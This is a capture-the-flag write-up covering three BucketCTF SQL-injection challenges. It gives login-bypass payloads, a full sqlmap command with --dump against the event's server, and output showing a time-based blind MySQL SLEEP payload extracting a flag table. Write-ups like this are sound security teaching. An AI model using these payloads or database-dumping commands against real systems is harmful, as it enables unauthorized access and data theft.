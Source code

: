 ```yaml
---
author: "Asad Ullah"
title: "SQLi 1, 2, 3  - BucketCTF"
description: 
summary: Write-up on web sql injections easy, medium and hard.
date: 2023-04-10T05:04:24+05:00
Section: write-ups
categories:
- writeup
- web
tags:
- bucketctf
- sqli
- sql injection
- time based sqli
- payload
- blind sqli

draft: true

---
```


&nbsp;


## Web - SQLi - 1

{{< 
ctftime 
name="SQLi - 1" 
difficulty="Easy"  
points="200"
category="web"
>}}

&nbsp;

### Description

This is my first time using SQL. Its such a great and simple tool.

### Approach

I attempted several payloads, but ultimately, this one worked: `' or 1=1--`

![Untitled](/write-ups/ctftime/bucket/sqli-1.webp)

&nbsp;

---

**Flag: `bucket{s1mp13_sq11_ed0176a}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 2

{{< 
ctftime 
name="SQLi - 2" 
difficulty="Medium"  
points="200"
category="web"
>}}

&nbsp;

### Description

Ok I upgrade my security by preventing you from using semicolons. A StackOverflow thread told me that would work.

### Approach

I attempted several payloads but found success with this one: `' OR 1 -- -`

![Untitled](/write-ups/ctftime/bucket/sqli-2.webp)

&nbsp;

---

**Flag: `bucket{m3d1um_sq11_693f79541}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 3

{{< 
ctftime 
name="SQLi - 3" 
difficulty="Hard"  
points="290"
category="web"
>}}

&nbsp;

### Description

Finally! I moved the secret into a **COMPLETELY** different table. There is **NO** way you can find it now.

### Approach

After attempting some payloads manually without success, I used `SQLmap` and successfully retrieved the flag. The database was `MySQL` and the parameters were vulnerable to `blind SQL Injection`

&nbsp;

***Breakdown of options in the SQLmap command***

- **`-u`** specifies the target URL to be scanned.
- **`-data`** provides the POST data to be sent with the request.
- **`-p`** indicates the parameters to be tested for SQL injection.
- **`-method`** specifies the HTTP method used for the request.
- **`-dump`** dumps the contents of the database after a successful SQLi attack.

```bash
┌──(kali㉿iasad)-[~/CTFs/Tools/sqlmap-dev]
└─$ python3 sqlmap.py -u "http://213.133.103.186:6409/login" --data "userName=1&password=2" -p "userName,password" --method POST --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.4.6#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal.
[*] starting @ 15:35:20 /2023-04-10/

[15:35:21] [INFO] resuming back-end DBMS 'mysql' 
[15:35:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=1' AND (SELECT 5012 FROM (SELECT(SLEEP(5)))lPED) AND 'eyGp'='eyGp&password=2
---
[15:35:21] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:35:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:35:21] [INFO] fetching current database
[15:35:22] [INFO] resumed: railway
[15:35:22] [INFO] fetching tables for database: 'railway'
[15:35:22] [INFO] fetching number of tables for database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: Flag
[15:35:22] [INFO] resumed: Users
[15:35:22] [INFO] fetching columns for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: id
[15:35:22] [INFO] resumed: value
[15:35:22] [INFO] fetching entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] fetching number of entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 1
[15:35:22] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)                       
[15:35:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[15:36:39] [INFO] adjusting time delay to 2 seconds due to good response times
bucke
[15:37:31] [ERROR] invalid character detected. retrying..
[15:37:31] [WARNING] increasing time delay to 3 seconds
t{j0
[15:38:58] [ERROR] invalid character detected. retrying..
[15:39:30] [ERROR] invalid character detected. retrying..
[15:39:30] [WARNING] increasing time delay to 6 seconds
1n5_m4k%}

[*] ending @ 15:47:24 /2023-04-10/
```

The flag was printed in pieces due to time-based SQL injection attack.

&nbsp;

---

**Flag: `bucket{j01n5_m4k%}`**

---

&nbsp;

&nbsp;

